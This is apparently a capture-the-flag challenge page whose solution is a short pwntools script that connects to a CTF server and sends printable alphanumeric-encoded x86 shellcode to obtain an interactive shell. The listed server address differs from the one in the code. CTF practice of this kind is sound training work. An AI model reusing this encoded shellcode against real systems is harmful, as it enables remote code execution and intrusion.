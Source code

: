 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20004

#### Solution
```python

#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("pwn.sniperoj.cn", 30010)
shellcode = "TX-BTUU-BTUU-BTUUP\%IIII%0000-&%%%-%%%%-%%%%P%IIII%0000-+%%%-+%%%-*%%%P%IIII%0000-1(^e-1'^e-0'`gP%IIII%0000-3F52-3E42-2E42P%IIII%0000-FF/3-FE/2-EE.2P%IIII%0000-oQ:3-pQ:2-qQ:2P%IIII%0000-EgW^-EgW_-EhY`PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP"
payload = shellcode
Io.sendline(payload)
Io.interactive()
```

#### Writeups
 * TODO

